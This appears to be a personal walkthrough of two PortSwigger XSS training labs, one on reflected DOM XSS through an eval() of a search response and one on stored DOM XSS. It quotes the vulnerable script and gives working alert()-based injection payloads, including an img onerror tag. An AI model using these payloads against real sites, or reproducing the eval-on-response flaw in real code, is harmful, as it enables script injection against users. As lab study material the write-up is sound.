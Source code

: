  This lab demonstrates a reflected DOM vulnerability. Reflected DOM vulnerabilities occur when the server-side application processes data from a request and echos the data in the response. A script on the page then processes the reflected data in an unsafe way, ultimately writing it to a dangerous sink.

To solve this lab, create an injection that calls the alert() function. 

original script:
```js
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
    xhr.open("GET", path + window.location.search);
    xhr.send();
```
the vulnrable line:
```
eval('var searchResultsObj = ' + this.responseText)
```

**payload:**
mine:
```json
\"};alert()//
```
portswigger:
```json
\"-alert()}//
```
full payload request to test in browser:
```
eval('var searchResultsObj = ' +  \"-alert(1)}//
```

response:
```
HTTP/1.1 200 OK

{"results":[],"searchTerm":" \\"-alert(1)}//
```

# ***8. Lab: Stored DOM XSS***
[to the Lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored)

payload:
```htm
<><img src=1 onerror=alert(1)>
```
